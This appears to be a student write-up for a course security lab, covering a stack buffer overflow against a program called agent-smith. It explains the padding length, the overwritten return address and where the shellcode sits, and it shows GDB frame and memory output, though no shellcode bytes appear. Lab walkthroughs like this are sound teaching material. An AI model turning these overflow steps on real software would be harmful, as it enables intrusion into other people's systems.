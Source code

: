 
# Project 1 Write Up


---


### Problem 2: smith

#### Main Idea

We feed in an arbitrary file that performs a buffer overflow attack. The vulnerability is that the agent-smith doesn't check if the file passed in is safe or not.

The first 4 bytes of our file is an integer specifying the size of the rest of the file. We then feed in a similar script as in problem 1, where we modify the return address to point to where we placed our shellcode (after the stored return address). 



#### Magic Numbers 

It was determined that the stored eip was 148 bytes after msg. Thus, we needed to add 148 bytes of padding into the buffer first.

The shellcode was placed right after the stored return address. The address of the stored eip was `0xbffff6dc`, therefore our modified eip needed to point to `0xbffff6e0` (4 bytes above the stored eip where the shellcode lies). 

The length of the file in total was 148 + 4 + 39 = 191 bytes. Therefore, we needed to prepend the byte representing 191 before our buffer attack.

```
Stack level 0, frame at 0xbffff6e0:
 eip = 0x4006ae in display (agent-smith.c:11); saved eip = 0x400775
 called by frame at 0xbffff710
 source language c.
 Arglist at 0xbffff6d8, args: path=0xbffff88a "pwnzerized"
 Locals at 0xbffff6d8, Previous frame's sp is 0xbffff6e0
 Saved registers:
  ebx at 0xbffff6d4, ebp at 0xbffff6d8, eip at 0xbffff6dc
```


#### GDB Exploit

64 words above msg before attack:

```
0xbffff648:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff658:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff668:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff678:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff688:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff698:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff6a8:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff6b8:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff6c8:     0x00000000      0x00000000      0x00000000      0xb7ffcf5c
0xbffff6d8:     0xbffff6f8      0x00400775      0xbffff88b      0x00000000
0xbffff6e8:     0x00000000      0x00400751      0x00000000      0xbffff710
0xbffff6f8:     0xbffff790      0xb7f8cc8b      0xbffff784      0x00000002
0xbffff708:     0xbffff790      0xb7f8cc8b      0x00000002      0xbffff784
0xbffff718:     0xbffff790      0x00000008      0x00000000      0x00000000
0xbffff728:     0xb7f8cc5f      0x00401fb8      0xbffff780      0xb7ffede4
0xbffff738:     0x00000000      0x00400505      0x0040073b      0x00000002
```
